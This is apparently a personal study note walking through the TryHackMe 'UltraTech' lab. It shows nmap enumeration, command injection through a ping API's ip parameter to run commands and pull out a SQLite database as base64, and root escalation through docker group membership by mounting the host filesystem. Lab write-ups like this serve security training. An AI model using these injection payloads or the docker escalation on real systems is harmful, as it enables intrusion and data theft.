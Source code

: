 
2024-07-11 20:46

Source: #web #youtube #privesc 

Tags: [[nmap]]
#### Enumeration 
```
nmap -sCV -v $IP 
```
non-standard port in use?
```
nmap -p- -v $IP
```
1. we find 31331 
2. 8081 has a website hosted that isn't leading anywhere so we try 31331, there we have a proper webpage of ultratech 
3. going to robots.txt we find the site map
#### Exploitation 

we see there is an `api` running that helps in pinging 
```
curl 'http://<ip.address>:8081/ping?ip=`whoami`'
```
above command would otherwise be used to ping an IP address but here with command substitution we can perform command [[injection]] 

since we have an API running we can use `/health` and `/status`

in order to get the data of the [[database]] we try to return the value as a base64 encoding 
```
10.10.65.179:8081/ping?ip=`base64 -w 0 utech.db.sqlite`
```
`-w 0` to make it all one long line
save the file with `.b64` extension the decode it using `base64 -d file.b64

check if a service is available on a machine or not by using - `which service_name`

we can try character escape by using `\|` 
#### Escalation

```
find / -perm -4000 2>/dev/null
```

if nothing sticks out from the above command 
1. go to the `opt` directory  
2. we find `containerd` dir 
3. check the group we are in by using `id` command 
since we are in the docker group we can use find exploits in gtfobins for [[docker]] 
- find local docker images using `docker images`
- run the below command further (bash is the local image found on the machine)
```
docker run -v /:/mnt --rm -it bash
```

### References
[TryHackMe | UltraTech](https://tryhackme.com/r/room/ultratech1)

video soln- 
https://www.youtube.com/watch?v=b8hUHRus6cw

[TryHackMe - Ultratech – sckull](https://sckull.github.io/posts/ultratech/#ftp-ssh)